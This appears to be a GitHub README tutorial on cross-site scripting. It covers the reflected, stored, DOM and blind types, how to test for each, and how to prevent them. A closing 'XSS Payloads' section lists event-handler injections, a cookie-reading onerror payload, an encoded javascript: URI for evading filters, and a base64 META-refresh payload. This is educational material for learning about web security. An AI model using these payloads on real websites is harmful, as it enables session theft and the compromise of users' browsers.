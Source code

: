 # Cross Site Scripting
## @Author : M3tr1c_r00t
![xss](https://user-images.githubusercontent.com/99975622/226171062-8599d63a-9952-4084-bf25-259dae50370b.jpg)

### Overview
Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites

Cross-site scripting works by manipulating a vulnerable web site so that it returns malicious JavaScript to users. When the malicious code executes inside a victim’s browser, the attacker can fully compromise their interaction with the application.

It’s long been common practice to use the alert() function for this purpose because it’s short, harmless, and pretty hard to miss when it’s successfully called. In fact, you solve the majority of our XSS labs by invoking alert() in a simulated victim’s browser.

Unfortunately, there’s a slight hitch if you use Chrome. From version 92 onward (July 20th, 2021), cross-origin iframes are prevented from calling alert(). As these are used to construct some of the more advanced XSS attacks, you’ll sometimes need to use an alternative PoC payload. In this scenario, we recommend the print() function. If you’re interested in learning more about this change and why we like print(), check out our blog post on the subject.

### Types of XSS Attacks
- Reflected XSS
- Stored XSS
- DOM-based XSS
- Blind XSS


#### 1). Reflected XSS
This is where the injected script is reflected off the web server, such as in an error message, search result, or any other response that includes some or all of the input sent to the server as part of the request.
It is the simplest variety of cross-site scripting. 

It arises when an application receives data in an HTTP request and includes that data within the immediate response in an unsafe way.

Here is a simple example of a reflected XSS vulnerability:
```
https://insecure-website.com/status?message=All+is+well.
<p>Status: All is well.</p>

```
The application doesn’t perform any other processing of the data, so an attacker can easily construct an attack like this:

```
https://insecure-website.com/status?message=<script>/*+Bad+stuff+here...+*/</script>
<p>Status: <script>/* Bad stuff here... */</script></p>

```
#### 2). Stored XSS
Is also known as persistent or second-order XSS

This arises when an application receives data from an untrusted source and includes that data within its later HTTP responses in an unsafe way.

The data in question might be submitted to the application via HTTP requests; for example, comments on a blog post, user nicknames in a chat room, or contact details on a customer order. 

In other cases, the data might arrive from other untrusted sources; for example, a webmail application displaying messages received over SMTP, a marketing application displaying social media posts, or a network monitoring application displaying packet data from network traffic.


Here is a simple example of a stored XSS vulnerability. 

A message board application lets users submit messages, which are displayed to other users:

```
<p>Hello, this is my message!</p>
```

Since the application doesn’t perform any other processing, we can execute code:

```
<p><script>/* Bad stuff here... */</script></p>
```

#### 3). DOM XSS
This arises when an application contains some client-side JavaScript that processes data from an untrusted source in an unsafe way, usually by writing the data back to the DOM.

In the following example, an application uses some JavaScript to read the value from an input field and write that value to an element within the HTML:
```
Var search = document.getElementById(‘search’).value;
Var results = document.getElementById(‘results’);
Results.innerHTML = ‘You searched for: ‘ + search;
```

If the we can control the value of the input field, we can make our own payload/script to execute:
```
You searched for: <img src=1 onerror=’/* Bad stuff here... */’>
```

#### 4). Blind XSS
Is a form of persistent XSS.

This occurs when the attacker’s payload saved on the server and reflected back to the victim from the backend application.

For example in forms and message panels.

In this case, the payload in the form will be exxecuted when being looked at and even at times when being submitted onto the server.


Blind Cross-site Scripting is hard to confirm in the real-world scenario but one of the best tools for this is XSS Hunter.

### How to find and test for XSS vulnerabilities
- Manually testing for reflected and stored XSS normally involves submitting some simple unique input (such as a short alphanumeric string) into every entry point in the application, identifying every location where the submitted input is returned in HTTP responses, and testing each location individually to determine whether suitably crafted input can be used to execute arbitrary JavaScript. In this way, you can determine the context in which the XSS occurs and select a suitable payload to exploit it.

- Manually testing for DOM-based XSS arising from URL parameters involves a similar process: placing some simple unique input in the parameter, using the browser’s developer tools to search the DOM for this input, and testing each location to determine whether it is exploitable. However, other types of DOM XSS are harder to detect. To find DOM-based vulnerabilities in non-URL-based input (such as document.cookie) or non-HTML-based sinks (like setTimeout), there is no substitute for reviewing JavaScript code, which can be extremely time-consuming. Burp Suite’s web vulnerability scanner combines static and dynamic analysis of JavaScript to reliably automate the detection of DOM-based vulnerabilities.


### Patching/Preventing XSS Attacks
- Filter input on arrival. At the point where user input is received, filter as strictly as possible based on what is expected or valid input.
- Encode data on output. At the point where user-controllable data is output in HTTP responses, encode the output to prevent it from being interpreted as active content. Depending on the output context, this might require applying combinations of HTML, URL, JavaScript, and CSS encoding.
- Use appropriate response headers. To prevent XSS in HTTP responses that aren’t intended to contain any HTML or JavaScript, you can use the Content-Type and X-Content-Type-Options headers to ensure that browsers interpret the responses in the way you intend.
- Content Security Policy. As a last line of defense, you can use Content Security Policy (CSP) to reduce the severity of any XSS vulnerabilities that still occur.

### XSS Payloads
#### 1). HTML Snippets
```
<title>Example document: %(title)</title>
```
Is intended to illustrate a template snippet that, if the variable title has value Cross-Site Scripting, results in the following HTML to be emitted to the browser:
```
<title>Example document: XSS Doc</title>
```
#### 2). Search Field
 
```
Example 2.
Suppose there’s a URL on Google’s site, http://www.google.com/search?q=flowers
```
, which returns 
HTML documents containing the fragment
```
<p>Your search for ‘flowers’ returned the following results:</p>
```

The value of the query parameter q is inserted into the page returned by Google. Suppose further that the data is not validated, filtered or escaped. 
Evil.org could put up a page that causes the following URL to be loaded in the browser (e.g., in an invisible<iframe>):

  ```
http://www.google.com/search?q=flowers+%3Cscript%3Eevil_script()%3C/script%3E
```
So the payload will be :
```
<p>Your search for ‘flowers <script>evil_script()</script>’
 ```
#### 3). Onload,onmousehover,onerror.
  
XSS attacks may be conducted without using <script>...</script> tags. 
 
#### Onload
```
<body onload=alert(‘test1’)> 
```
#### Onmouseover
```
 <b onmouseover=alert(‘Wufff!’)>click me!</b>
```
#### Onerror
```
<img src=http://url.to.file.which/not.exist onerror=alert(document.cookie);>
```
 
#### 4). XSS Using Script Via Encoded URI Schemes
If we need to hide against web application filters we may try to encode string characters, e.g.: a=&\#X41 (UTF-8) and use it in IMG tags:
```
<IMG SRC=j&#X41vascript:alert(‘test2’)>
```

#### 5). XSS Using Code Encoding
We may encode our script in base64 and place it in META tag. This way we get rid of alert() totally. More information about this method can be found in RFC 2397
```
<META HTTP-EQUIV=”refresh”
CONTENT=”0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgndGVzdDMnKTwvc2NyaXB0Pg”>
```
### Sources
```
  https://hackr.io/blog/xss-cheat-sheet
  https://chawdamrunal.medium.com/xss-cheat-sheet-e8b8261963c9
```
  
## My socials:
<br>@ twitter: https://twitter.com/M3tr1c_root
<br>@ instagram: https://instagram.com/m3tr1c_r00t/
